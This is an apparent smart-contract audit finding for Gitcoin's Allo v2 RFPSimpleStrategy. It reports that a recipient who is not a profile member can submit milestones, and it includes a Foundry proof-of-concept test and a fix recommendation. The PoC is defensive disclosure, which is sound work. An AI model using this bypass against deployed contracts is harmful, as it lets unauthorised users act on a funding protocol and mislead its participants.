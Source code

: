 Noisy Ocean Hornet

high

# Unregistered user can submit Upcoming Milestone

In RFPSimpleStrategy , recipients can call  `submitUpcomingMilestone` with their proof of work. The docs mention that the caller must be an `acceptedRecipientId` and should be a `profile` member . 

They do by checking through this:-

https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/rfp-simple/RFPSimpleStrategy.sol#L255-L257

But , it does not check the case where, 
`acceptedRecipientId` == msg.sender && !_isProfileMember(acceptedRecipientId, msg.sender)



## Vulnerability Detail

Paste the below code in RFPSimpleStrategy.t.sol
Run `forge test --mt test_poc_malicious_user_can_front_run_and_set_upcoming_milestone`
```solidity
 function test_poc_malicious_user_can_front_run_and_set_upcoming_milestone() public {
        address recipient = makeAddr("malicious_recipient");
        Metadata memory metadata = Metadata({protocol: 1, pointer: "metadata"});

        bytes memory data = abi.encode(recipient, false, 1e18, metadata);
        vm.prank(recipient);
        address recipientId = allo().registerRecipient(poolId, data);
        __setMilestones();

        emit Allocated(recipientId, 1e18, NATIVE, address(pool_admin()));

        data = abi.encode(recipient, false, 1e18, metadata);

        vm.prank(pool_admin());
        allo().allocate(poolId, abi.encode(recipientId));
        vm.expectEmit();
        emit MilstoneSubmitted(0);
       
        vm.prank(recipient);
        strategy.submitUpcomingMilestone(Metadata({protocol: 1, pointer: "metadata"}));
        
        RFPSimpleStrategy.Milestone memory milestone = strategy.getMilestone(0);
        assertEq(uint8(milestone.milestoneStatus), uint8(IStrategy.Status.Pending)); 
    }
```
Here, first `registerRecipient` is called, we assume , `useRegistryAnchor` is false for the pool. 
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/rfp-simple/RFPSimpleStrategy.sol#L327-L346

Hence , we jump to else block.
As `registryAnchor` == address(0), `isUsingRegistryAnchor` will be false.
Hence , this check passes
```solidity
            if (isUsingRegistryAnchor && !_isProfileMember(recipientId, _sender)) revert UNAUTHORIZED();
```

Now even though recipient was not a profile member, they can call `submitUpcomingMilestone` . They will pass the check as they are acceptedRecipientId but not a profile Member.
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/rfp-simple/RFPSimpleStrategy.sol#L255



## Impact
Recipient which are not even a profile member can set milestones . Now they can deceive everyone in the protocol who believe they are registered as a profile member.
## Code Snippet
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/rfp-simple/RFPSimpleStrategy.sol#L253-L271
## Tool used

Manual Review

## Recommendation
Ensure that only user should be a profile member to be able to call `submitUpcomingMilestone`